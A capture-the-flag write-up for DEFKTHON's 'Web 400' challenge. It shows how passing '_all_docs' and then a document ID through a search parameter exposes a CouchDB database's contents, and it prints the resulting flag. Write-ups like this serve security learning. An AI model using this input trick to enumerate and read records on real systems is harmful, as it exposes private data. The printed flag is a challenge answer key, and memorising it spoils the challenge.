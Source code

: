 # DEFKTHON CTF: Web 400

**Description:**

> [Search Me](http://54.201.96.212:888/web400/web_search.php)

## Write-up

The `web_search.php` endpoint contains a form, and (by default) displays the following error message:

```
Error: Document ID is empty (errcode=0)
```

Let’s enter `test` in the search field and submit the form. [The response](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=test) contains:

```
Error: Object Not Found - missing (GET /astro_users/test []) (errcode=404)
```

[This error message format](https://www.google.com/search?q="%22Object%20Not%20Found%20-%20missing%22") is a hint that CouchDB is used.

CouchDB has [an `_all_docs` endpoint](http://couchdb.readthedocs.org/en/latest/api/database/bulk-api.html#get--db-_all_docs)) that returns a list of all available documents in the database, in JSON format. [Let’s take a look](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=_all_docs):

```
stdClass Object
(
    [total_rows] => 3
    [offset] => 0
    [rows] => Array
        (
            [0] => stdClass Object
                (
                    [id] => flag_for_l33ts
                    [key] => flag_for_l33ts
                    [value] => stdClass Object
                        (
                            [rev] => 4-f9d777fcf20c3fc52943aeba961593e9
                        )

                )

            [1] => stdClass Object
                (
                    [id] => userid1
                    [key] => userid1
                    [value] => stdClass Object
                        (
                            [rev] => 3-3125d533dea89836adec3b8a5a652030
                        )

                )

            [2] => stdClass Object
                (
                    [id] => userid2
                    [key] => userid2
                    [value] => stdClass Object
                        (
                            [rev] => 5-0090aa4c0db1f8d52a74d6134b2e48ef
                        )

                )

        )

)
```

`flag_for_l33ts` sounds interesting. [Let’s check it out](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=flag_for_l33ts):

```
stdClass Object
(
    [_id] => flag_for_l33ts
    [_rev] => 4-f9d777fcf20c3fc52943aeba961593e9
    [flag_for_l33ts_only] => flag{here_you_go_nice_solving_webChalLenges}
)
```

The flag is `here_you_go_nice_solving_webChalLenges`.

## Other write-ups

* none yet
